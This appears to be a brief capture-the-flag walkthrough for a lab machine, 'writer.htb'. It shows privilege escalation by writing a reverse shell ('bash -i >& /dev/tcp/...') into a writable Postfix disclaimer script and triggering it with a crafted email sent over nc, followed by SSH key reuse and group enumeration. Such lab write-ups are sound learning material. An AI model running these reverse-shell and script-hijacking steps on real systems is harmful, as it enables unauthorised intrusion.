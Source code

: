 basic enum, kyle is member of group filter

```bash
groups

find / -group filter -ls 2>/dev/null
```

writable to file /etc/postfix/disclaimer

check /etc/postfix/master.cf

```bash
cd /etc/postfix
grep -R disclaimer .

  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```



## john shell

exploit disclaimer, got john shell.

add shell scripts before Send email 

```bash
# add to disclaimer
bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'

# send mail
nc -nv 127.0.0.1 25

EHLO writer.htb

mail from: kyle@writer.htb
RCPT TO: john@writer.htb
data
subject: test mail
hello, test
.
```

got john shell.

save id_rsa, connect via ssh.

```bash
chmod 600 john_idrsa
ssh -i john_idrsa john@$tip

```

check group, John is member of management group, able to write to /etc/apt/apt.conf.d

```bash
groups john
find / -group management -ls 2>/dev/null
```
